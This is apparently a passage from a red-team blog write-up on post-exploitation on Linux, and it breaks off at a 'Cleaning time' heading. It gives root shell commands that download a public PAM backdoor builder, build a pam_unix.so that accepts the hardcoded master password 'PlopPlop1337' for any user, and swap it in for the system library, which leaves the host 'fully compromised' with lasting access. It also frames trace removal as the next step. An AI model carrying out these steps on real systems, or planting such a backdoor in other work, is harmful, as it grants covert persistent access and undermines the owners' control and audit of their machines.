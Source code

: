 
## Post exploitation

During post-exploitation, it's time for backdooring the system and remove all traces left behind.

### PAM backdoor

PAM means `Pluggable Authentication Modules`, in other words, and to be brief, it's the authentication mechanism in modern Linux systems. This mechanism is requested when you're using SSH, sudo or whatever.

Now, what would happen if we added a condition to the code? Something like: "If the password is equal to PlopPlop1337, then log me regardless of the user and the real password". Many blogs got articles about this kind of backdoor, there are even some GitHub to automate the process: https://github.com/zephrax/linux-pam-backdoor

First things to do, determine the PAM version used by the target system:

```bash
root@webserver $ dpkg -l | grep pam 
[...]
ii  libpam-modules:amd64          1.1.8-3.6                      amd64        Pluggable Authentication Modules for PAM
[...]

root@webserver $ wget https://github.com/zephrax/linux-pam-backdoor/archive/master.zip

root@webserver $ unzip master.zip 

root@webserver $ ./linux-pam-backdoor-master/backdoor.sh -v 1.1.8 -p PlopPlop1337

root@webserver $ mv /lib/x86_64-linux-gnu/security/pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so.bak

root@webserver $ mv pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so
```

The first `mv` is used to do a backup of the existing libary, in case of failure. It's simple, if I fail my backdoor installation, I will simply broke the authentication system.

Ok, the backdoor is installed, let's test:


![](/lib/images/articles/realgsmoveinsilencelikelasagna/red_18.gif)


In two password prompt above, the password was: `PlopPlop1337`. The system is fully compromised, with perennial access to the system!


![](https://media.giphy.com/media/LwBqgdCi3nenTBU4wU/giphy.gif)


### Cleaning time

Ok, the backdoor is in place and well hidden. Now it's time to clean our mess. Here some elements to remove:
